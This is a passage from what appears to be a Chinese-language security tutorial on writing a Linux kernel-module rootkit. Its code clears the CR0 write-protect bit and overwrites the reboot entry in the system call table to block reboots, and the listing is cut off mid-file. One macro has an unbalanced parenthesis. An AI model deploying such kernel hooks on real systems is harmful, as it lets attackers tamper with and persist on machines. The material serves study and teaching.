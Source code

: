 写保护标志存储在 Intel x86_64 处理器的 32 位控制寄存器（cr0）的第 17 位。Linux 内核实现了一个名为 `write_cr0` 的函数，该函数将一个值写入 cr0 寄存器。我们将编写一个名为 `my_write_cr0` 的函数，该函数明确执行汇编指令以设置 cr0 寄存器，而不使用预定义的 Linux 函数，其功能因运行在虚拟环境中而异。

```
static long my_write_cr0(long value) {

    __asm__ volatile("mov %0, %%cr0" :: "r"(value) : "memory");

}
```

现在我们可以通过按位 AND 运算（`&`）寄存器与 `0x10000` 的取反（`~`）来禁用 `WP` 标志。这样可以将标志的当前值设置为 0：

```
#define disable_write_protection() my_write_cr0(read_cr0() & (~0x10000);
```

然后我们可以通过计算寄存器与值 `0x10000` 之间的按位 OR 来重新启用写保护；这样可以将位设置回 1：

```
#define enable_write_protection()({my_write_cr0(read_cr0() | (0x10000));})
```

现在让我们编写一个 C 函数，使我们的内核模块能够钩住系统调用表：

```
static void hook_reboot_sys_call(void *new_function){

 ➊ old_reboot_sys_call = sys_call_table_address[__NR_reboot];

    disable_write_protection();

 ➋ sys_call_table_address[__NR_reboot] = (unsigned long)new_function;

    enable_write_protection();

}
```

首先，我们保存了旧的重启系统调用 ➊ 的副本。在卸载模块后，我们需要这样做，因为我们希望在移除模块时系统能够正常运行。接下来，我们通过调用刚刚编写的函数禁用写保护，并更新系统调用表中的 `__NR_reboot` 条目 ➋，指向我们将在以下代码片段中定义的新重启函数。最后，我们将重新启用写保护。

现在让我们把这一切整合到一个单独的文件中。将以下内容复制到名为 *reboot_blocker.c* 的新文件中，并保存到 *lkm_rootkit* 文件夹中：

```
  #include <linux/module.h>

  #include <linux/init.h>

  #include <linux/kernel.h>

  #include <linux/kprobes.h>

  #include <linux/syscalls.h>

  // Manually set the write bit

  static void my_write_cr0(long value) {

      __asm__ volatile("mov %0, %%cr0" :: "r"(value) : "memory");

  }

  #define disable_write_protection() my_write_cr0(read_cr0() & (~0x10000))

  #define enable_write_protection() my_write_cr0(read_cr0() | (0x10000))

  #define enable_reboot 0

  unsigned long *sys_call_table_address;
```